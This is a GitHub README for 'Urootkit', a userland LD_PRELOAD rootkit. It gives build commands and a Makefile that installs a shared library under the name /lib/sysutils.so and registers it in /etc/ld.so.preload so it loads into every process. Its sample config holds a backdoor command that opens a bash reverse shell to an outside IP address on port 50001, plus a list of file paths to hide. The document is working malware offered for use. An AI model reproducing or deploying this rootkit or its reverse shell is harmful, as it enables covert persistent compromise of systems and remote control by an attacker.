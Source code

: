 # Urootkit
The userland LD_PRELOAD rootkit
Reference: https://github.com/ngn13/cerez

## Make
```shell
apt update && apt install build-essential libconfig-dev

make && make install
```
Makefile:
```shell
SRCS = $(wildcard *.c)
HEADERS = $(wildcard *.h)

dist/loader.so: $(SRCS) $(HEADERS)
	mkdir -p dist
	gcc -shared -fPIC $(SRCS) -o $@ -ldl -lconfig -nostartfiles

install:
	cp ukk_root.cfg /etc/ukk_root.cfg
	cp dist/loader.so /lib/sysutils.so 
	echo /lib/sysutils.so > /etc/ld.so.preload
```
## USE
ukk_root.cfg:
```shell
backdoor = "bash -c 'bash -i >& /dev/tcp/123.249.89.38/50001 0>&1'";

hidden = (  
  { path = "/etc/uroot.cfg" },
  { path = "/tmp/test" }
);
```
- backdoor: is the urootkit will do when the hooked function is runing
- hidden: the path you want to hide
